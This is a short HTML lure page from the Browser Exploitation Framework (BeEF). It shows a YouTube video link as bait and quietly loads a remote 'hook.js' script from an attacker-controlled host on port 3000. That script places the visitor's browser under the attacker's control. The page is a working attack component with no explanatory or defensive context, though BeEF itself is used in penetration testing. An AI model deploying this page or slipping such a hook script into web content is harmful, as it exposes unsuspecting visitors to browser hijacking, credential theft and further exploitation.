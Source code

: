 <!--
    Copyright (c) 2006-2022 Wade Alcorn - wade@bindshell.net
    Browser Exploitation Framework (BeEF) - http://beefproject.com
    See the file 'doc/COPYING' for copying permission
-->
<html><head>
<meta http-equiv="content-type" content="text/html; charset=windows-1252">

</head>
<body>
<a href="https://www.youtube.com/watch?v=PzGI-FBzcNE">
Press here the link to open the video.
</a>
<script src="http://<IP>:3000/hook.js"></script>


</body></html>
